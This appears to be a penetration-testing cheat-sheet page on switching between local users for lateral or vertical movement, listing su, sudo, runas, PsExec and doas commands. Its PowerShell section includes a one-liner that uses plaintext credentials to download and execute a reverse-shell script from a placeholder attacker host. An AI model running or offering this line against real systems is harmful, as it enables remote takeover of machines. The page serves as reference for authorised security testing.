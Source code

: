 ```yaml
---
description: >-
  Some times we need to do a lateral or vertical movement between the same hosts
  only switching between local users, and we cant use any type of authenticated
  service such as SMB or SSH.
---
```


# Run Commands AS

## Linux

Linux has the easiest way to change between users using the `su` command.

```text
su user
```

To change to `root` user \(need to be in sudoer group\)

```text
sudo su -
```

## Windows

### Cmd

`runas` command gives us the oportunity in `cmd` the opportunity to run some commands as other users.

```text
runas /user:username <program>
runas /user:domain\username <program>
runas /user:username@domain <program>
```

### PsExec

 [_PsExec_ ](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec)is part of a growing kit of Sysinternals command-line tools that aid in the administration of local and remote systems named _PsTools_.

```text
psexec.exe /accepteula
psexec.exe [\\COMPUTER] /u USER /p PASS cmd [args]
```

### Powershell

```text
$user='WORKGROUP\User'; 
$pass='passwd';
Invoke-Command -ScriptBlock { iex(New-Object Net.WebClient).DownloadString('http://<IP>:<PORT>/rev_shell.ps1') } -ComputerName BART -Credential (New-Object System.Management.Automation.PSCredential $user,(ConvertTo-SecureString $pass -AsPlainText -Force))
```

## NetBSD

Similar like sudo

```text
su user
```

Similar like `sudo`to change to `root`user:

```text
doas -u USER sh
```



